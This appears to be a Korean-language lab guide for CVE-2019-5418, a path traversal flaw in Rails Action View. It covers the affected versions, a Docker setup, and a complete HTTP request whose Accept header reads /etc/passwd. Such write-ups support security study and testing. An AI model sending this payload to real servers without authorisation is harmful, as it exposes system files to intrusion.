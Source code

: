 # Ruby on Rails 경로 순회 및 임의 파일 읽기 (CVE-2019-5418)

## 中文版(중국어 버전)

Ruby on Rails는 개발자가 웹 애플리케이션을 빠르고 쉽게 구축할 수 있는 웹 애플리케이션 프레임워크입니다.

Ruby on Rails의 Action View 버전 <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1 및 v3에는 로컬 파일 포함(Local File Inclusion, LFI) 취약점이 존재합니다.

컨트롤러에서 `render file`을 사용하여 애플리케이션 외부의 뷰를 렌더링할 때, Rails는 사용자가 제공한 `Accept` 헤더를 기반으로 파일 위치를 결정합니다. 공격자는 `Accept` 헤더에 다음과 같은 값을 전달함으로써 경로 순회(Path Traversal) 취약점을 악용할 수 있습니다:

```
Accept: ../../../../../../../../etc/passwd{{
```

이를 통해 임의 파일을 읽을 수 있습니다.

## 참고 문헌

- [공식 보안 공지](https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q)
- [GitHub PoC 코드](https://github.com/mpgn/CVE-2019-5418)
- [Alibaba XZ 분석 글](https://xz.aliyun.com/t/4448)

## 환경 설정

다음 명령어를 실행하여 Ruby on Rails 5.2.2 환경을 Docker로 구성합니다:

```bash
docker compose build
docker compose up -d
```

서버가 시작된 후, 브라우저에서 `http://your-ip:3000`에 접속하여 Ruby on Rails 환영 페이지를 확인합니다.

## 취약성 재현

1. `http://your-ip:3000/robots`에 접속하여 정상적으로 `robots.txt` 파일을 읽을 수 있는지 확인합니다.
2. 취약점을 악용하여 `/etc/passwd` 파일을 읽으려면 다음과 같은 HTTP 요청을 보냅니다:

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

요청이 성공하면 `/etc/passwd` 파일의 내용을 읽을 수 있습니다.
![img1](./image1.png) 
![img2](./image2.png)
![img3](./image3.png)
![img4](./image4.png)
![img5](./image5.png)
